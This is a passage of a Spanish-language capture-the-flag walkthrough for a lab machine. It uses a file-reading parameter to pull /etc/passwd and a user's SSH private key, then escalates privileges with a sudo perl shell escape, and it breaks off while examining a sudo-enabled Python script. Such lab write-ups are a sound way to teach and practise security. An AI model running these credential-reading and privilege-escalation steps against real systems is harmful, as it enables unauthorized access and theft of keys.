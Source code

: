 Efectivamente, parámetro **secret**.

# EXPLOTACION

Si apuntamos a /etc/passwd :

Usuarios -> **luisillo** y **vaxei**

Si apuntamos al directorio personal de vaxei -> **/home/vaxei/.ssh/id_rsa** tenemos una clave privada de ssh

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
vaxei@a78c9ed27ee3:~$ sudo -l
Matching Defaults entries for vaxei on a78c9ed27ee3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User vaxei may run the following commands on a78c9ed27ee3:
    (luisillo) NOPASSWD: /usr/bin/perl


```

Vemos **perl** con permisos SUDO :

   ```bash
vaxei@a78c9ed27ee3:~$ sudo -u luisillo perl -e 'exec "/bin/sh";'
$ whoami
luisillo

```

YA ESTAMOS COMO LUISILLO.

Vemos si el usuario tiene permisos SUDO:
   ```bash
   
$ sudo -l
Matching Defaults entries for luisillo on a78c9ed27ee3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on a78c9ed27ee3:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/paw.py


```

Vemos **paw.py** con permisos SUDO  al ejecutarlo con python. Parece que no podemos hacer nada, pero al ejecutarlo:
